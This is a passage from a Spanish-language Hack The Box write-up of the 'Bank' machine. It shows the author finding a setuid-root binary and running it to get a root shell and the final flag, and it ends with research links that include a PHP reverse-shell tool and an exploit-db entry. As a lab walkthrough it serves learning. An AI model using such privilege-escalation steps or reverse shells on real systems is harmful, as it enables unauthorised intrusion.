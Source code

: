 Tenemos varios como el **passwd, ping** y uno que es extraño:
```bash
www-data@bank:/$ file ./var/htb/bin/emergency
file ./var/htb/bin/emergency
./var/htb/bin/emergency: setuid ELF 32-bit LSB  shared object, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=1fff1896e5f8db5be4db7b7ebab6ee176129b399, stripped
```
Ok, veamos que permisos tiene: 
```bash
www-data@bank:/$ ls -la ./var/htb/bin/emergency
ls -la ./var/htb/bin/emergency
-rwsr-xr-x 1 root root 112204 Jun 14  2017 ./var/htb/bin/emergency
```
Mmmm ¿Root? Ósea que, si lo ejecutamos, ¿seremos Root? Hagámoslo:
```bash
www-data@bank:/$ ./var/htb/bin/emergency
./var/htb/bin/emergency
# whoami
whoami
root
# cd /root
cd /root
# ls
ls
root.txt
```
a...Bueno, ya quedaron todas las flags.


<br>
<br>
<div style="position: relative;">
 <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
  <button style="position:absolute; left:80%; top:3%; background-color:#444444; border-radius:10px; border:none; padding:4px;6px; font-size:0.80rem;">
   <a href="#Indice">Volver al Índice</a>
  </button>
</div>


* https://www.google.com/search?client=firefox-b-e&q=ISC+BIND+9.9.5-3ubuntu0.14 https://neoattack.com/neowiki/dns/
* https://linube.com/ayuda/articulo/267/que-es-un-virtualhost
* https://www.reydes.com/d/?q=Solicitar_una_Transferencia_de_Zona_utilizando_el_Script_dns_zone_transfer_de_Nmap
* https://www.welivesecurity.com/la-es/2015/06/17/trata-ataque-transferencia-zona-dns/
* https://www.hostinger.mx/tutoriales/comando-dig-linux https://www.ecured.cu/Html2text
* https://tecnonautas.net/como-usar-curl-para-descargar-archivos-y-paginas-web/
* https://itsfoss.com/es/descargar-archivos-desde-terminal-linux/ https://atareao.es/tutorial/terminal/filtros-awk-grep-sed-y-cut/
* https://geekland.eu/uso-del-comando-awk-en-linux-y-unix-con-ejemplos/
* https://www.enmimaquinafunciona.com/pregunta/67844/uso-de-sed-para-eliminar-digitos-y-espacios-en-blanco-de-una-cadena
* https://github.com/pentestmonkey/php-reverse-shell https://pentestmonkey.net/tools/web-shells/php-reverse-shell
* https://www.exploit-db.com/exploits/43418 https://openwebinars.net/blog/wget-descargas-desde-linea-de-comandos/
* https://www.enmimaquinafunciona.com/pregunta/75153/inicio-de-sesion-interactivo-y-no-interactivo-shell
* https://esgeeks.com/post-explotacion-transferir-archivos-windows-linux/#http


<br>
# FIN
